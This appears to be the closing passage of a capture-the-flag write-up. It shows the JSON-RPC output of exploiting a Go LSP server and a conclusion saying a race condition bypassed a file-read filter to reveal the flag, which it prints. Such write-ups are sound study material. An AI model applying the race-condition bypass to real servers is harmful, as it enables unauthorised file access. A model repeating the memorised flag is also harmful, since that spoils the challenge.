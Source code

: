 ```sh
Port: 7003
Initialization response: {'id': 1, 'result': {'capabilities': {'textDocumentSync': 1, 'hoverProvider': True, 'renameProvider': True, 'completionProvider': {'resolveProvider': False, 'triggerCharacters': ['w', 'r', '_', 'f']}, 'executeCommandProvider': {'commands': ['wildwest.quickDraw']}}}, 'jsonrpc': '2.0'}
ExecuteCommand response: {'id': 4, 'result': '🤠 Loaded new config! Now prefix="a" minLen=1 enforce=true\n', 'jsonrpc': '2.0'}
Diagnostics response: {'jsonrpc': '2.0', 'method': 'textDocument/publishDiagnostics', 'params': {'uri': 'file:///test.go', 'diagnostics': [{'range': {'start': {'line': 12, 'character': 5}, 'end': {'line': 12, 'character': 73}}, 'severity': 2, 'message': "Wild West Warning: 'sheriff_says_12345ABCDE67890abcde12345ABCDE67890abcde12345ABCDE67890' should be renamed to 'asheriff_says_12345ABCDE67890abcde12345ABCDE67890abcde12345ABCDE67890_outlaw'.", 'source': 'WildWestCodeWrangler'}]}}
Diagnostics response: {'jsonrpc': '2.0', 'method': 'textDocument/publishDiagnostics', 'params': {'uri': 'file:///test.go', 'diagnostics': [{'range': {'start': {'line': 12, 'character': 5}, 'end': {'line': 12, 'character': 73}}, 'severity': 2, 'message': "Wild West Warning: 'sheriff_says_12345ABCDE67890abcde12345ABCDE67890abcde12345ABCDE67890' should be renamed to 'asheriff_says_12345ABCDE67890abcde12345ABCDE67890abcde12345ABCDE67890_outlaw'.", 'source': 'WildWestCodeWrangler'}]}}
ExecuteCommand response: {'jsonrpc': '2.0', 'method': 'window/showMessage', 'params': {'type': 3, 'message': "🤠 Howdy partner! That's some mighty fine syntax you got there!\n\nYour line:\n> PCTF{sh3riFF_$4y$_y0uR_c0D3_1$_cL34N_dd323724983c}"}}
{'id': 5, 'result': "🤠 Howdy partner! That's some mighty fine syntax you got there!\n\nYour line:\n> PCTF{sh3riFF_$4y$_y0uR_c0D3_1$_cL34N_dd323724983c}", 'jsonrpc': '2.0'}
Shutdown response: {'id': 6, 'result': None, 'jsonrpc': '2.0'}
```
# Conclusion
This was a golang LSP server with a custom command allowing for file reading under certain conditions. In order to bypass the filter disallowing the reading of the flag file we exploit a race condition and get the flag: `PCTF{sh3riFF_$4y$_y0uR_c0D3_1$_cL34N_dd323724983c}`
